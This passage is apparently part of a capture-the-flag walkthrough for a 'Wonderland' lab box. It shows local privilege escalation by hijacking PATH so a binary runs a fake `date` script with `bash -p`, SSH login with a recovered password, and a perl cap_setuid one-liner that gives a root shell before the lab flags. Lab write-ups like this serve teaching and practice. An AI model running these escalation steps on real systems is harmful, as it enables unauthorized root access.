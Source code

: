     - File teaParty is a ELF bynary file and it's call /bin/echo with full path and using `date` without full path can we abuse this ?
    - create bash file with name is `date` and update path on first checking
    ```bash
    rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
    rabbit@wonderland:/home/rabbit$ echo $PATH
    /home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

    #!/bin/bash
    bash -p

    rabbit@wonderland:/home/rabbit$ ./teaParty
    Welcome to the tea party!
    The Mad Hatter will be here soon.
    Probably by hatter@wonderland:/home/rabbit$
    ```

    - After abusing date we get user hatter and found `password.txt` with `WhyIsARavenLikeAWritingDesk?` string ASCII on that file 
    - Trying SSH using user hatter `ssh hatter@10.10.145.12`
    - running linpeas found capabilities using perl and check capabilities on GTFoBin for perl

    ```bash
    Files with capabilities (limited to 50):
    /usr/bin/perl5.26.1 = cap_setuid+ep

    perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

    root@wonderland:/root# cat user.txt
    thm{"Curiouser and curiouser!"}
    root@wonderland:/root# cat /home/alice/root.txt
    thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
    ```
